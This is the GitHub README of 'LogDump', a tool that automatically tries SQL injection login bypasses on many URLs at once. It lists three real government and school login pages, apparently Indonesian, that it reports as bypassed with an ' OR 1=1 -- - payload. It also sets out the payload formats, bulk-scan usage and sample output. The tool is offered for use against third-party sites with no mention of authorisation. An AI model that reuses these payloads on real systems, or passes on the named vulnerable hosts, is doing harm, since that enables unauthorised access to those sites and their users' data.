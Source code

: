 # LogDump

**LogDump** is an automated SQL injection testing tool designed to test login pages for vulnerabilities. It sends injection payloads into the username and password fields to check for potential security flaws. The tool supports both single URL testing and testing multiple URLs from a file, with logging, retry mechanisms, and multi-threading for improved performance.
# Vuln Link:
              Login found: http://ptsp.pt-nad.go.id/aipda/page/login.php with payload: ' OR 1=1 -- - ' or 1=1 limit 1 -- -+
              Login found: https://www.eapus.pn-sinabang.go.id/login.php with payload: ' OR 1=1 -- - ' or 1=1 limit 1 -- -+
              Login found: https://flipbook.smpn1blimbingsari.sch.id/login.php with payload: ' OR 1=1 -- - ' or 1=1 limit 1 -- -+
              
              
              
## Features

- **Automated SQL Injection Testing:** Test login pages with a variety of payloads to check for vulnerabilities.
- **Single URL Testing:** Test one URL at a time.
- **Multiple URL Testing:** Test multiple URLs from a file, with optional URL filtering based on keywords.
- **Logging:** Logs results of successful and failed injection attempts into separate log files.
- **Exponential Backoff Retry:** Automatically retries failed requests with an increasing delay.
- **Multi-threading:** Performs concurrent tests on multiple URLs and payloads for faster results.
- **Customizable Fields:** Allows customization of the username and password field names.

## Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/HackfutSec/LogDump.git
   ```

2. Navigate to the project directory:

   ```bash
   cd LogDump
   ```

3. Install the required dependencies:

   ```bash
   pip install -r requirements.txt
   ```

   If you don't have a `requirements.txt`, you can install the required libraries manually:

   ```bash
   pip install requests
   ```

## Usage

### 1. Test a Single URL

To test a single login URL, run the program and provide the URL when prompted:

```bash
python logdump.py
```

You will be asked to enter:

- **Username field name** (default: `username`)
- **Password field name** (default: `password`)
- **URL** to test

The program will attempt to bypass the login using a series of payloads and log the results.

### 2. Test Multiple URLs from a File

To test multiple URLs, the program will ask for the path to a file containing the URLs you want to test.

- URLs will be filtered based on keywords you provide (optional).
- The results will be logged and saved in the `results.txt` file.

```bash
python logdump.py
```

When prompted, enter:

- **File path** containing URLs to test.
- **Keywords** to filter URLs (optional).

### Logs

- **`success_injections.log`**: Logs successful injection attempts.
- **`error_injections.log`**: Logs errors or failed attempts.
- **`test_injections.log`**: General logs, including retries and requests.

The results of successful logins are also saved in a text file (`results.txt`).

### Custom Payloads

You can add custom payloads by editing the `payloads.json` file. This file should contain a list of payload strings, such as:

```json
[
    "' OR 1=1 --",
    "' OR 'a'='a",
    "' OR 1=1#"
]
```

## Configuration

You can customize the program by modifying the following parameters:

- **Username field name** and **Password field name**: Set default field names for the login form (default: `username`, `password`).
- **Payload file**: The default payload file is `payloads.json`. You can replace or modify it to suit your needs.

## Example

### Running the program with a single URL:

```bash
$ python logdump.py
Enter the URL to test (e.g., http://example.com/login.php): http://example.com/login.php
Enter the username field name (default 'username'): 
Enter the password field name (default 'password'): 
Testing with payload: ' OR 1=1 --
Testing with payload: ' OR 'a'='a
Login found with payload: ' OR 1=1 -- on URL http://example.com/login.php
Login found: http://example.com/login.php with payload: ' OR 1=1 --
```

### Running the program with multiple URLs from a file:

```bash
$ python logdump.py
Enter the path to the file containing the URLs to test: urls.txt
Enter the keywords to filter URLs (separated by commas): admin,login
```

## Logging

- **Success logs**: All successful injection attempts are logged in `success_injections.log`.
- **Error logs**: Errors, such as network issues or invalid responses, are logged in `error_injections.log`.
- **General logs**: General information, including retries, are stored in `test_injections.log`.

## Dependencies

- `requests`: A simple HTTP library for making requests.
- `concurrent.futures`: For multi-threading to run tests concurrently.

## Contributing

Contributions are welcome! Feel free to fork the repository, open issues, and submit pull requests.

### Steps to Contribute:

1. Fork this repository.
2. Create a new branch (`git checkout -b feature-name`).
3. Make your changes.
4. Commit your changes (`git commit -am 'Add new feature'`).
5. Push to the branch (`git push origin feature-name`).
6. Create a pull request.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
